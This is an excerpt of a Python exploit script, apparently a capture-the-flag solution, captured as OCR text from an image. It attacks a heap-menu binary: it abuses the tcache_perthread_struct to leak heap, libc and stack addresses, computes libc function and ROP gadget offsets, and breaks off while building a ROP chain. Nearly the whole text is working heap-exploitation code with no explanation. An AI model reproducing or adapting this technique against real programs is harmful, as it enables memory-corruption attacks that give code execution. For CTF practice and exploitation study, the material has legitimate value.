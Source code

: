 ```py
print(hex(heap_leak))
heap_base = heap_leak - 0x1db0


# Free tcache_perthread_struct
add(0, 0x10, "ZAFIR_1")
lose(0)


# Get libc address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
add(1, 0x280, buf)
add(2, 0x800, "leaker")
lose(1)

buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(heap_base + 0x15a0)
add(1, 0x280, buf)

add(0, 0x0, "asdf", usecontent=False)
view(0)
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(libc_leak))
libc_base = libc_leak - 0x1ebbf0
lose(1)

environ = libc_base + 0x1ef2e0
open_func = libc_base + 0x110e50
read_func = libc_base + 0x111130
write_func = libc_base + 0x1111d0
pop_rdi = libc_base + 0x0000000000026b72
pop_rsi = libc_base + 0x0000000000027529
pop_rdx = libc_base + 0x0000000000162866
pop_rsp = libc_base + 0x0000000000032b5a
ret = libc_base + 0x0000000000025679
pop_rcx = libc_base + 0x00000000001056fe
syscall = libc_base + 0x000000000011b880


# Get stack address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(environ)
add(1, 0x280, buf)

add(0, 0, "asdf", usecontent=False)
view(0)
stack_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
print(hex(stack_leak))
lose(1)


## ROP chain!
buf = b""
buf += p64(0)*2 + p64(0x0101010101010101)*6
buf = buf.ljust(128, b"\x00")
buf += p64(stack_leak-0x158)*32
add(1, 0x280, buf)
```